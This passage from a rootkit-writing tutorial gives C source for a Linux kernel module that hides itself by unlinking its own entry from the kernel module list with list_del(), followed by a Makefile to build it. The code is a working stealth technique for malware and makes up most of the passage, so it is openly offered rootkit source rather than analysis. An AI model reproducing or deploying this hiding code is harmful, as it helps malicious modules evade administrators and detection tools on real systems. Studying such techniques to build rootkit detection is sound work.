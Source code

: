So there are a lot of modules already. Our first task is to make our rootkit module invisible. To do this, first we must clean up some kernel structures:

```c
#include <linux/module.h>
#include <linux/kernel.h>
#include <linux/rculist.h>
#include <linux/sysfs.h>


static int __init rootkit_init(void)
{
  struct module *mod = THIS_MODULE;
  printk(KERN_INFO "rootkit_mod loading.\n");

  printk(KERN_INFO "rootkit_mod hidind itself.\n");
/* Based at: kernel/module.c
   The mutex is because of risk another referencing to list.
   in kernel/module.c each list_del operation are in mutex
 */
  mutex_lock(&module_mutex);
  list_del(&mod->list);
  mutex_unlock(&module_mutex);

  printk(KERN_INFO "rootkit_mod done.\n");
  return 0;
}
module_init(rootkit_init);

static void __exit rootkit_exit(void)
{
  printk(KERN_INFO "rootkit_mod unloaded.\n");
}
module_exit(rootkit_exit);
```

The first thing to do is to delete rootkit from modules list using **list_del()** function.
To check if the module became invisible compile it and run.

To compile the module we need Makefile:

```bash
KDIR := /usr/src/linux-headers-3.13.0-65-generic/ #HERE your kernel dir for x86
## for embedded boards should be folder with linux sources for board i.e.
#KDIR := /home/gotoco/olimex/A20/linux-sunxi
PWD := $(shell pwd)

obj-m += rootkitmod.o

all:
	make -C $(KDIR) \
                SUBDIRS=$(shell pwd) modules

clean:
	make -C $(KDIR) \
                SUBDIRS=$(shell pwd) clean
```
